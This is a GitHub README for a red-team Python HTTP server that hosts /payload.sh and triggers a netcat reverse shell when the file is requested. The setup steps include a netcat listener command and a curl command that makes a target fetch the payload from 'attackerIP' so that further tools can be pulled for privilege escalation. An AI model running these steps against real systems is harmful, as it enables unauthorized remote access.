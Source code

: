 # Red Team HTTP Server with Reverse Shell

## Overview

This red team tool is a Python-based HTTP server that hosts specific payloads for post-exploitation activities. It restricts file access to predefined resources and triggers a reverse shell when a specific payload is accessed. The goal is to allow further privilege escalation by hosting additional scripts that can be retrieved via curl.

## Description

The server only allows access to a specific file (`/payload.sh`). If the file is requested via a GET request, the server triggers a reverse shell connection to a specified attacker machine using `nc` (netcat). This reverse shell could be used for further privilege escalation purposes in a controlled, ethical hacking environment.

The server does the following:
1. It hosts only specific files that are allowed to be accessed (currently only `/payload.sh`).
2. It checks for the requested file and, if it matches `/payload.sh`, triggers a reverse shell connection using `nc`.
3. Any unauthorized access attempts are blocked with a `403 Access Denied` response.

## Requirements

- Python 3.x
- Netcat (`nc`), installed on the machine where this script is running

## Setup

1. Clone this repository:
   git clone https://github.com/Lucas-F913/CDTBRTT.git
3. Run Python server
4. listen on designated port
   nc -lvnp {port}
6. Make target curl http://attackerIP:Port/payload.sh
7. Once connection establish use other directories to grab other tools off the webserver
